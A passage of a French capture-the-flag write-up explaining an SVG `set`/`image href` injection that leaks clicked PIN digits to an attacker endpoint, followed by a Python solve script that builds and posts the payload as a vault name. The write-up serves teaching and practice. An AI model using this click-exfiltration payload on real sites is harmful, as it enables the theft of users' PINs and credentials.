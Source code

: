 - `begin="pin1.click"` -> déclenche le `set` au clic sur un élément ayant pour id `pin1`. 
- `attributeName=href` -> l'attribut à qui doit être changé dans l'élément svg par set
- `to="https://blog.bwlryq.net/?pins=1"` -> la nouvelle valeur de l'attribut, ici l'endpoint de l'attaquant
- `dur="0.1s"` -> la durée d'effet du set

*Note: la durée du set n'est pas essentielle pour la réussite de l'attaque, cependant pour les navigateurs basés sur Firefox, sans cette durée, si l'utilisateur appuie plusieurs fois sur le même élément, seul le premier appui est enregistré. L'attribut dur permet donc de réinitaliser le set et de permettre plusieurs appuis même sur un navigateur basé sur Firefox*

Une fois l'élément ayant pour id `pin1` cliqué, la valeur de `href` pour l'image (qui imbrique `set`) présente dans le svg est changée, ce qui force le navigateur à charger cette image, et donc à envoyer l'information du numéro de bouton cliqué à l'attaquant.

En se basant sur tout ceci, il est possible de créer une charge dans le nom du vault qui va enregistrer tous les clics sur les 10 chiffres du panel :

![sniff_clicks](img/sniffed.png)

## Automatisation et flag 
Le script [solve.py](solve.py) suivant, automatise l'exploitation de la vulnérabilité en créant un vault malveillant : 

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# Author: Mika

from requests import post
from sys import argv

if len(argv) < 3:
    print(f"Usage: {argv[0]} <chall_url> <listener_link>")
    exit()

chall = argv[1]
listener = argv[2]

payload_base = f'<svg><image href="/"><set begin="pinPIN_NUM.click" attributeName=href to="{listener}/?pin=PIN_NUM"></set></image></svg>'
payload_final = ''.join([payload_base.replace('PIN_NUM', str(i)) for i in range(10)])

print(f"[*] Payload:\n {payload_final} \n {'-'*50}")
ans = input("[?] Ready to send payload? (y/n): ")
if ans.lower() != 'y':
    print("[!] Exiting...")
    exit()

print("[*] Sending payload...")
post(chall + '/create', data={'vaultName': payload_final, 'pinCode': '1337'})
```